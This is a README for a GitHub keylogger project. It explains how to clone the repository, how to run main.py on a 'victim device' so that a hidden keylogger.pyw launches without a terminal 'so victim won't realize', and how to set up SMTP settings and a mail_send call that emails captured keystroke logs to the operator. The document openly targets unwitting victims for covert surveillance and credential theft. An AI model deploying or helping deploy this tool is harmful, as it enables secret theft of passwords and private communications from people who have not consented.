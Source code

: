 # Keylogger

## Install 

    git clone https://github.com/OldKokoroz/Keylogger.git


## Setup

To try on your device run Keylogger.py 

to run on your victim device run main.py it will install requirements and 
automatically run keylogger.pyw (without a terminal) so victim won't realize 


## Getting log file 

  Server Name 	SMTP Server 	SMTP Port
GMAIL 	smtp.gmail.com 	587
OUTLOOK 	smtp-mail.outlook.com 	587
YAHOO 	smtp.mail.yahoo.com 	587


You have to :

- open a new gmail account

         mail_send(your-email@gmail.com, your-passwd, log_msg)  ---- Do not touch log_msg

- enter your address instead of first ""

- enter your password instead of second ""

- It is set to send mails to the mail you give (that means you send logs to yourself with your account)
